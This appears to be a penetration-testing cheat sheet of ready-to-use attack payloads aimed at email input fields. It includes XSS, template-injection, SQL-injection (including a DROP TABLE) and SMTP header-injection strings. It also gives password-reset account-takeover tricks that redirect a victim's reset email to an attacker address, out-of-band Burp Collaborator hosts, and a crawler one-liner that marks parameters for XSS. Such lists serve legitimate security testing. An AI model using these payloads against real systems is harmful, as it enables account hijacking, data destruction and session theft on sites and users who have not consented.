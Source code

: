 
# Email Address input fuzz
```
test+(<script>alert(1)</script>)@example.com
test@example(<script>alert(1)</script>).com
"<script>alert(1)</script>"@example.com

"<%=7*7%>"@example.com
test+(${{7*7}})@example.com

"'OR 1=1--"@example.com
"mail');DROP TABLE users;--"@example.com

test@example.burpcollaborator.net
test@[127.0.0.1]

victim&email=attacker@example.com

"%0d%0aContent-Lenght:%200@0d%0a%0d%0a"@example.com"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```
# Account takeover via Email 
```
GET /passwordreset

Double parameter (aka. HPP / HTTP parameter pollution):
email=victim@xyz.tld&email=hacker@xyz.tld
Carbon copy:
email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
Using separators:
email=victim@xyz.tld,hacker@xyz.tld
email=victim@xyz.tld%20hacker@xyz.tld
email=victim@xyz.tld|hacker@xyz.tld
No domain:
email=victim
No TLD (Top Level Domain):
email=victim@xyz
JSON table:
{"email":["victim@xyz.tld","hacker@xyz.tld"]}
```
# Password Reset:
```
reset userpassword: user@email.com.burpcolaborator.com
```
# Find GET parameters in example.com
```
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```
